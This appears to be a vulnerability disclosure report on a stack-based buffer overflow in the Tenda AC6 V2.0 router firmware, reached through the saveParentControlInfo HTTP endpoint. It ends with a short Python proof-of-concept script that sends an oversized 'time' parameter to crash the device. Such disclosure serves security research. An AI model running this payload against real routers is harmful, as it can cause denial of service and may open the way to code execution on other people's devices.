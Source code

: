 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/saveParentControlInfo`. When `time`/`urls`/`deviceId` is specified with excessive data, the buffer overflow occurs during `sscanf`/`strcpy`.

![alt text](image.png)
![alt text](image-3.png)
![alt text](image-4.png)
![alt text](image-5.png)
## poc
![alt text](image-1.png)
![alt text](image-2.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'time' : payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'DOIT-' + 0x110 * b'A'

send_payload("http://10.10.10.1/goform/saveParentControlInfo", payload)
```
